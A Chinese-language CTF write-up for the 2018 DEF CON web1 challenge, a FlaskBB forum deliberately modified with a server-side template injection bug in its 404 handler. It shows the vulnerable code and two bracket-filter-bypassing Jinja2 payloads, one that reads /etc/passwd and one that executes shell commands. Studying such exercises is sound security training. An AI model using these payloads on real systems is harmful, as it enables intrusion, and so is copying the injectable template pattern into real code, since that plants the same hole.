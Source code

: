 ## 0x00  环境编译
```
docker-compose build
docker-compose up -d
```
该题是2018年Defcon对抗赛的web1，该网站用的是flaskbb搭建的，本身没有存在漏洞，开发人员通过修改了源代码造成了SSTI漏洞，现在凡是涉及Flask的安全问题几乎都会重点提及SSTI

SSTI的漏洞主要涉及两个函数

```
from flask import render_template_string

from jinja2 import Template
```




漏洞源码在flasks/app.py文件中的375行开始

```
   375	    @app.errorhandler(404)
   376	    def page_not_found(error):
   377	        url = request.url
   378	        if '[' in url or ']' in url:
   379	            return "<h1>url error!</h1>"
   380
   381	        return render_template_string("<h1>URL %s  not found</h1><br/><p>Some programmers developed a forum program based on the foundation of flaskbb , but it cause some defects and bugs. Try to find it.</p><p>Notice that you should access the website with host \"<b>flaskweb.com</b>\" , please modify your hosts file or ADD this to HTTP header.</p>" % url), 404
```


## 0x01 漏洞利用

通过之前的代码显示，过滤了中括号，上网搜索了一下找到了绕过的payload

文件读取payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}
```

![](README/luffy1.png)


命令执行payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()}}
```

![](README/luffy2.png)





##  0x02 链接

[SSTI过滤绕过](http://p0sec.net/index.php/archives/120/)

[SSTI攻击分析](https://hellohxk.com/blog/ssti/)

[Flask jinja2模板注入思路总结](http://www.ee50.com/ld/940.html)



